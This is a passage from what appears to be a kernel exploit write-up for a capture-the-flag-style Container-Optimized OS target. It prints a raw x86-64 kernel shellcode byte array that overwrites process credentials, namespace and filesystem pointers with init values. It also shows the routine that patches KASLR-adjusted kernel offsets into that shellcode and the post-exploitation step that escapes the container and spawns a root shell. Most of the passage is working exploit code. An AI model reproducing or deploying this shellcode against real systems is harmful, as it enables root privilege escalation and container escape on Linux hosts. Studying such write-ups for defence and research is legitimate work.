```c
    6a: be ad de
    6d: 49 89 9e c0 07 00 00    mov    QWORD PTR [r14+0x7c0],rbx
    74: bf ff ff ff ff          mov    edi,0xffffffff
    79: 48 b8 04 00 fe ca ef    movabs rax,0xdeadbeefcafe0004 ; msleep
    80: be ad de
    83: ff d0                   call   rax
    85: eb ed                   jmp    0x74
    */
    unsigned char data[135] = {
        0x4d,0x31,0xff,0x49,0xbe,0x0,0x0,0xfe,0xca,0xef,0xbe,0xad,0xde,0x49,0xbd,0x1,
        0x0,0xfe,0xca,0xef,0xbe,0xad,0xde,0x4d,0x39,0xae,0x68,0x7,0x0,0x0,0x74,0x1a,
        0x4d,0x8b,0xb6,0x88,0x4,0x0,0x0,0x49,0x81,0xee,0x88,0x4,0x0,0x0,0x49,0xff,
        0xc7,0x49,0x81,0xff,0xe8,0x3,0x0,0x0,0x7e,0xd3,0x48,0xbb,0x2,0x0,0xfe,0xca,
        0xef,0xbe,0xad,0xde,0x49,0x89,0x9e,0x50,0x7,0x0,0x0,0x49,0x89,0x9e,0x58,0x7,
        0x0,0x0,0x48,0xbb,0x5,0x0,0xfe,0xca,0xef,0xbe,0xad,0xde,0x49,0x89,0x9e,0xa8,
        0x7,0x0,0x0,0x48,0xbb,0x3,0x0,0xfe,0xca,0xef,0xbe,0xad,0xde,0x49,0x89,0x9e,
        0xc0,0x7,0x0,0x0,0xbf,0xff,0xff,0xff,0xff,0x48,0xb8,0x4,0x0,0xfe,0xca,0xef,
        0xbe,0xad,0xde,0xff,0xd0,0xeb,0xed,
    };
    replace(data, sizeof(data), 0xdeadbeefcafe0000, curr_gadget->init_task_offset + kaslr_slide);
    replace(data, sizeof(data), 0xdeadbeefcafe0001, TARGET_COMM);
    replace(data, sizeof(data), 0xdeadbeefcafe0002, curr_gadget->init_cred_offset + kaslr_slide);
    replace(data, sizeof(data), 0xdeadbeefcafe0003, curr_gadget->init_nsproxy_offset + kaslr_slide);
    replace(data, sizeof(data), 0xdeadbeefcafe0004, curr_gadget->msleep_offset + kaslr_slide);
    replace(data, sizeof(data), 0xdeadbeefcafe0005, curr_gadget->init_fs_offset + kaslr_slide);
    memcpy(sc, data, sizeof(data));
```
- [exploit/extra-refined/exploit.c#L284](../exploit/extra-refined/exploit.c#L284)
```c
void replace(unsigned char *data, uint64_t datasz, uintptr_t key, uintptr_t repl)
{
    for (unsigned char *data_end = data + datasz - 8; data < data_end; data++) {
        if (*(uintptr_t*)data == key) {
            *(uintptr_t*)data = repl;
        }
    }
}
```
The code above is for crafting the payload for the kernel shellcode. The kernel image-specific offsets are patched into kernel shellcode by `replace` function.

### 7.7 Post exploitation

In this step, the exploit process acquires root privilege and escape the namespace container, popping a root shell from outside of the container.

- [exploit/extra-refined/exploit.c#L1221](../exploit/extra-refined/exploit.c#L1221)
```c
printf("[*] now take a rest while worker make us escape!\n");
sleep(3);

post_exploit();
```
The exploit waits for a while to ensure the kernel shellcode is executed by the kernel worker. After the kernel shellcode is executed, the same `post_exploit` function from `lts_6.1.31` exploit is used to perform post-exploit works and drop a root shell to get the flag of `cos-105-17412.101.17` instance.
